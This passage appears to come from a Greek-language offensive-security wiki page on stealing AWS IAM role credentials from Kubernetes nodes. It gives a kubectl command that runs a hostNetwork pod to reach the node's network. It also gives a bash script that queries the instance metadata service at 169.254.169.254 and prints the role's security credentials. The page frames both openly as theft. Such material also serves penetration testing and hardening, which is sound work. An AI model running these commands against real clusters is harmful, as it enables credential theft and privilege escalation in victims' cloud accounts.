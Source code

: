 Η προηγούμενη ενότητα αφορούσε το πώς να κλέψετε τους ρόλους IAM με τις pods, αλλά σημειώστε ότι ένα **Κόμβος του** cluster K8s θα είναι ένα **παράδειγμα μέσα στο cloud**. Αυτό σημαίνει ότι είναι πολύ πιθανό ο Κόμβος να **έχει έναν νέο ρόλο IAM που μπορείτε να κλέψετε** (_σημείωση ότι συνήθως όλοι οι κόμβοι ενός cluster K8s θα έχουν τον ίδιο ρόλο IAM, οπότε μπορεί να μην αξίζει τον κόπο να ελέγξετε κάθε κόμβο_).

Ωστόσο, υπάρχει ένα σημαντικό απαιτούμενο για να έχετε πρόσβαση στο σημείο μεταδεδομένων από τον κόμβο, πρέπει να είστε στον κόμβο (συνεδρία ssh;) ή τουλάχιστον να έχετε το ίδιο δίκτυο:
```bash
kubectl run NodeIAMStealer --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostNetwork": true, "containers":[{"name":"1","image":"alpine","stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent"}]}}'
```
### Κλοπή IAM Role Token

Προηγουμένως έχουμε συζητήσει πως να **συνδέσουμε IAM Roles σε Pods** ή ακόμα και πως να **δραπετεύσουμε στον Κόμβο για να κλέψουμε το IAM Role** που έχει επισυναφθεί σε αυτόν.

Μπορείτε να χρησιμοποιήσετε τον παρακάτω κώδικα για να **κλέψετε** τα νέα σας σκληρά **δουλευμένα διαπιστευτήρια IAM role**:
```bash
IAM_ROLE_NAME=$(curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ 2>/dev/null || wget  http://169.254.169.254/latest/meta-data/iam/security-credentials/ -O - 2>/dev/null)
if [ "$IAM_ROLE_NAME" ]; then
echo "IAM Role discovered: $IAM_ROLE_NAME"
if ! echo "$IAM_ROLE_NAME" | grep -q "empty role"; then
echo "Credentials:"
curl "http://169.254.169.254/latest/meta-data/iam/security-credentials/$IAM_ROLE_NAME" 2>/dev/null || wget "http://169.254.169.254/latest/meta-data/iam/security-credentials/$IAM_ROLE_NAME" -O - 2>/dev/null
fi
fi
```
## Αναφορές

* [https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity](https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity)
* [https://medium.com/zeotap-customer-intelligence-unleashed/gke-workload-identity-a-secure-way-for-gke-applications-to-access-gcp-services-f880f4e74e8c](https://medium.com/zeotap-customer-intelligence-unleashed/gke-workload-identity-a-secure-way-for-gke-applications-to-access-gcp-services-f880f4e74e8c)
* [https://blogs.halodoc.io/iam-roles-for-service-accounts-2/](https://blogs.halodoc.io/iam-roles-for-service-accounts-2/)

{% hint style="success" %}